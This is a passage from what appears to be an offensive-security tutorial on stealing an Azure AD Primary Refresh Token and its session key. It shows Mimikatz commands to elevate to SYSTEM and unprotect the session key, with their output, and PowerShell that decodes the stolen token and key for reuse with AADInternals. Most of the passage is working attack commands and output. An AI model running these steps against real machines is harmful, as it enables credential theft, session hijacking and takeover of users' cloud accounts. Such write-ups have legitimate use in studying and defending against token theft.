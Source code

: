 	"IsRestricted": 0,
	"CredentialType": 1,
	"DsrInstance": 0,
	"AdfsPasswordChangeInfo": 0,
	"AccountType": 1,
	"IsDefaultPasswordChangeUri": 0
}
{{< /highlight>}}

Next, we need to decode the **KeyValue** from **ProofOfPossesionKey** (MS typo :thinking:?) to get the session key. We continue by elevating to NT AUTHORITY\SYSTEM:

```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM
```
Now we can use Mimikatz to unprotect the session key:
```
mimikatz # dpapi::cloudapkd /keyvalue:AQAAAAEAAAABAAAA0Iyd3wEV0RGMegDAT8KX6...a_uuJVo86iywLqs0yh0sHCsGKd0rgqWrrQGMEQSSeq9E0znadE /unprotect
Label      : AzureAD-SecureConversation
Context    : b10e7c099040ebb7a15a6cab38ad320a8ef8c68c73c299bf
 * using CryptUnprotectData API
Key type   : Software (DPAPI)
Clear key  : e5268ef434fb624db4b133cf9f0854d73d367284b0f39543810587afd5d4178d
Derived Key: ddd22d1244a43095a866b666ef9f0cab9c8d7bb364256548a6e603466d800604
```
As we have both the **PRT** and the **session key** (**Clear key** from the output above) and we can generate a new PRT token using AADInternals:

{{< highlight powershell >}}
# Add the PRT to a variable
$MimikatzPRT = "MC5BQUFBeGt3RFJMN19mRVNvbms3SXhzaTc3b2M3cWpodG9...aG1ianRuMk83QmtJdkg0QXNVRXp6dWhQX3ZwZ2ZNLWppYw"

# Add padding
while($MimikatzPRT.Length % 4) {$MimikatzPRT += "="}

# Convert from Base 64
$PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Add the session key (Clear key) to a variable
$MimikatzKey = "e5268ef434fb624db4b133cf9f0854d73d367284b0f39543810587afd5d4178d"

# Convert to byte array and base 64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzKey -replace '..', '0x$&,' -split ',' -ne ''))
